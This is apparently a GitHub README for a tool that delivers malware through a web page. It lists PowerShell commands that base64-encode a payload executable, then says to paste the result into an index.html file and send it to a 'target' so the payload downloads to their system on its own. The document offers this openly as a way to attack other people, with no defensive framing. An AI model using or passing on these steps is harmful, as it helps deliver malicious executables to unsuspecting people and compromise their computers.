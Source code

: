 [![forthebadge](https://forthebadge.com/images/badges/built-with-love.svg)](https://forthebadge.com)

# Auto-File-Download-Using-JS

This script will help you to download your payload automatically into your targets system.

Steps - 

1 - Create Your Payload.

2 - Bring that payload into your Windows system.

3 - Open Powershell.

4 - Navigate to the directory where the paylaod is present.

5 - Commands to perform in Powershell - 
	
	1) (Get-Content C:\Windows\Desktop\Payload.exe)

	2) $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Windows\Desktop\Payload.exe'))

	3) $base64string | Out-File temporary.log

	4) code .\temporary.log

6 - Now copy the code into the index.html file.

7 - Now send index.html to your target and work done. Your payload will get downloaded automatically.


